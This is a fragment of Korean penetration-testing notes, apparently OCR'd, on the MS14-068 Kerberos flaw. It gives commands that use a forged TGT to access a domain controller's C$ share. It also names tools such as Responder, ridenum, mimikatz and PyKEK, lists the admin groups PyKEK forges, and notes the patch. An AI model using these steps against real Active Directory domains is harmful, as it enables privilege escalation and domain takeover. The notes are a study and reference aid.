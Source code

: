 ```
admin_server = DC # lower
default_domain = domain # lower
}
[domain_realm]
.xxx.xxx.xxx = DOMAIN # lower = upper
EOF
# rdate -n DC
# kinit user@domain
# rpcclient -U user DC
# cp TGT* /tmp/krb5cc_0
# smbclient -W domain //DC/c$ -k
```

#### Uptime

Responder.py

#### RID Enumeration

ridenum.py

#### mimikatz

mimikatz.exe

#### PyKEK

pykek 이 forge 하는 group membership 은

```
Domain Users (513)
Domain Admins (512)
Schema Admins (518)
Enterprie Admins (519)
Group Policy Creator Owners (520)
```

[PyKEK Kerberos Packets on the Wire aka How the MS14-068 Exploit Works](http://adsecurity.org/?p=763)

### Patch

blog.beyondtrust.com 의 글을 보니, VerifyPacSignature() 에서 SignatureType 이 HMAC_MD5 인지 비교하는 코드가 들어간 모양.

